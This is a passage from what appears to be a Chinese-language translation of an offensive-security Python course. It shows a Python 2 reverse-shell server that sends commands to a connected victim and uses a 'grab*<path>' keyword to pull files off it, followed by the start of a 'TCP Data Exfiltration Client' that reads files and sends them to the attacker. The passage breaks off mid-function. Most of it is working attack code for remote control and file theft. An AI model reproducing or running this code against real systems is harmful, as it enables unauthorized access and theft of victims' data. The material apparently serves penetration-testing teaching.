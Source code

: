 ```

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("10.0.2.15", 8080))
    s.listen(1)
    print '[+] Listening for incoming TCP connection on port 8080'
    conn, addr = s.accept()
    print '[+] We got a connection from: ', addr

    while True: 
        command = raw_input("Shell> ")
        if 'terminate' in command:
            conn.send('terminate')
            conn.close() 
            break

# if we received grab keyword from the user input, then this is an indicator for
# file transfer operation, hence we will call transfer function

# Remember the Formula is grab*<File Path>
# Example: grab*C:\Users\Hussam\Desktop\photo.jpeg

        elif 'grab' in command: 
            transfer(conn,command)

        else:
            conn.send(command) 
            print conn.recv(1024) 

def main ():
    connect()
main()
```

`elif 'grab' in command:`代码表明这不是一个普通的命令；此命令用于传输文件。因此，服务器和客户端必须就此指示符或公式达成一致。现在，公式将是`grab`，后面跟上`*`和我们要抓取的文件路径，例如，`grab*C:\Users\Hussam\Desktop\photo.jpeg`。

# 客户端

现在，让我们看看客户端脚本：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# TCP Data Exfiltration Client

import socket 
import subprocess 
import os # needed for file operations

# In the transfer function, we first check if the file exists in the first place, if not we will notify the attacker
# otherwise, we will create a loop where each time we iterate we will read 1 KB of the file and send it, since the
# server has no idea about the end of the file we add a tag called 'DONE' to address this issue, finally we close the file

def transfer(s,path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet != '':
```